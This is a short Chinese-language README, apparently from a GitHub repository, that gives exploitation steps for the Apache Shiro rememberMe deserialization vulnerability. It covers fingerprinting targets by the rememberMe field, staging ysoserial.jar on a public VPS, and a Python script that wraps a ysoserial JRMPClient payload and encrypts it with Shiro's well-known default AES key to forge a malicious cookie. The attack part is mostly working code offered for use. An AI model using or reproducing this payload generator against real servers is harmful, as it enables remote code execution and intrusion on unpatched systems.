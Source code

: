 ![1571978670426](README.assets/1571978670426.png)





## 如何确定目标使用shiro

通过登录页面是否返回rememberme字段



## 利用步骤



公网VPS上需要准备编译好的ysoserial.jar，或者自己下载源码重新编译



python脚本中需要用到pycrypto模块

```
apt-get install python-dev
pip install pycrypto
```



生成cookie的脚本

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

```